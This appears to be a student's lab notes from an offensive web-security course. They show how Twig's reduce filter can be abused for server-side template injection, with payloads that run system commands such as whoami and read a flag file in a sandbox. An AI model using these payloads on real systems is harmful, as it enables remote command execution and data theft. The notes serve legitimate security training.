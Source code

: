 Let's open the documentation for _reduce_[2](https://portal.offsec.com/courses/web-200-28380/learning/server-side-template-injection-discovery-and-exploitation-30963/twig-discovery-and-exploitation-31307/twig-exploitation-31043#fn-local_id_315-2) and read how this filter works. The documentation states:

The reduce filter iteratively reduces a sequence or a mapping to a single value using an arrow function, to reduce it to a single value.

We'll also find a documented example.
```twig
{% set numbers = [1, 2, 3] %}

{{ numbers|reduce((carry, v) => carry + v) }}
{# output 6 #}
```
The most important thing for us to notice is that this filter accepts a function (an arrow function[^ssti_arrow] in this case) that is executed by the filter. Knowing exactly what arrow functions are and how they work is less important. If we can control which function to use, we might be able to execute arbitrary PHP functions.

Reviewing the arguments, we can find some hints about how to achieve this:
```twig
Arguments

    arrow: The arrow function
    initial: The initial value
```
For now, we'll use _var_dump_ as the function and provide a random string as the argument. We also need to provide a value on the left side of the filter, so let's use an array with only a single value.
```twig
{{[0]|reduce('var_dump','Hello')}}
```
If we place this in our sandbox, we'll receive a variable dump of the string.
![[Pasted image 20241022144023.png]]
```twig
string(5) "Hello"
int(0)
```
The _var_dump_ function was executed with the "Hello" string as an argument. Let's replace this string with something that will execute system commands instead, such as the _system_[^ssti_system] function.
```twig
{{[0]|reduce('system','whoami')}}
```
![[Pasted image 20241022144133.png]]
Excellent! We can now execute commands in the Twig templating engine!
Go to` http://template-sandbox/twig` for the following exercises.

##### Labs
1.
![[Pasted image 20241022144334.png]]
```twig
{{[0]|reduce('system','cat /var/www/flag.txt')}}
```
![[Pasted image 20241022150511.png]]
